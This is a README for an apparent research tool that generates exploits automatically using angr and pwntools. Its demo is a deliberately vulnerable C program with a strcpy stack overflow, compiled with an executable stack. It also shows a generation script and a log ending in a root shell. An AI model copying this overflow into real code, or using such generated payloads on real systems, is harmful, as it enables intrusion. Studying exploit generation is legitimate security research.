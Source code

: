 AEGG
----

my automatic exploit generation


Usage
-----

1. vi `vul.c`:
    ```
    #include <stdio.h>
    #include <unistd.h>
    #include <string.h>

    char buf[100];

    int sample_func() {
        char name[10] = {0};
        read(0, buf, 307);
        strcpy(name, buf);
        printf("input: %s\n", name);
    }

    int main(void)
    {
        printf("Running...\n");
        sample_func();
        printf("Done.\n");
    }
    ```
2. complie `vul`:
    ```
    gcc vul2.c -o vul2 -m32 -g -z execstack
    ```
3. vi `my_aegg.py`:
    ```
    from aegg import AEGG

    binary = './vul'
    gg = AEGG(binary)

    # generating payload!
    gg.hack()

    print repr(gg.payloads)
    gg.save()
    ```


Result
------

```
$ python my_aegg.py
...
INFO    | 2016-06-18 00:10:11,717 | aegg.aegg | Start hacking ...
INFO    | 2016-06-17 23:44:43,872 | pwnlib.elf | Stack is executable!
[+] Started program './vul'
INFO    | 2016-06-17 23:44:46,974 | pwnlib.tubes.process | Started program './vul'
[*] Stopped program './vul'
INFO    | 2016-06-17 23:44:47,976 | pwnlib.tubes.process | Stopped program './vul'
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Generated!
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Completed.
$
$ (cat ./vul.exp; cat) | ./vul
Running...
input: jhh///sh/bin��1�j
                           �̀ÿ @@   @
id
uid=0(root) gid=0(root) groups=0(root)
```


Dependences
-----------

- angr
- pwntools


TODO
----

- ROP: leak_based, gadget_based
- AEGG: inputs in exploit_gen instead of paths (for fuzzing)
- ret2stack: try every buffer
- fmtstr exploit


Reference
---------

[angr-doc/examples/insomnihack_aeg](https://github.com/angr/angr-doc/blob/master/examples/insomnihack_aeg/)

[(State of) The Art of War: Offensive Techniques in Binary Analysis](https://www.cs.ucsb.edu/~vigna/publications/2016_SP_angrSoK.pdf)

[AEG: Automatic Exploit Generation](http://repository.cmu.edu/cgi/viewcontent.cgi?article=1239&context=ece)

